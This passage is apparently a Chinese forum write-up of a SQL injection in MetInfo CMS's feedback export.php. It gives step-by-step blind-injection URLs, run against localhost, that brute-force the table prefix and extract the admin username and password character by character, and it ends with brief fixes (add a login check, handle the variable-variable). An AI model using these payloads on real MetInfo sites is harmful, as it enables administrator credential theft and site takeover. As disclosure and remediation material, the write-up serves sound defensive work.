 可以看到两个文件的大小是不一样滴，给大家看看这个 excel 里到底有啥区别

![](img/02171058c00638526f5d6037d50f7821260d8d5c.png)

step1：暴力破解 metinfo 前缀

用 brup 进行破解，这个不用我多解释了把，根据返回大小

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

step2： 破解 admin 账户

还是 brup，用 substr 一个个来

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) where substr(admin_id,1,1)=0x61 -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

step3：破解 admin 密码

同上

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) where admin_id=0x61646d696e and substr(admin_pass,1,1)=0x32 -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

## 修复方案

1\. include check_login

2\. export.php 的那个危险的$$注意下

3\. 打赏点 rank 吧，我不用当路人甲阿。。。
